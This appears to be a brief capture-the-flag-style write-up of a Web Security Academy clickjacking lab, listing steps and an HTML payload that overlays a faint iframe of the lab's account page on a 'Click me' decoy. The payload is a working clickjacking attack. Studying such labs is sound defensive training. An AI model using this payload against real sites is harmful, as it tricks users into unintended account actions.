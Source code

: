
1. Log in with your account;
2. Verify that any protections against ClickJacking;

![](/static/img/Pasted_image_20231120105752.png)

3. Go to exploit server and paste the following payload

```html
<style>
    iframe {
        position:relative;
        width:1000;
        height: 700;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:515px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a9900af04610dc382ac490d002e00f5.web-security-academy.net/my-account"></iframe>
```

![](/static/img/Pasted_image_20231120111300.png)


![](/static/img/Pasted_image_20231120110821.png)

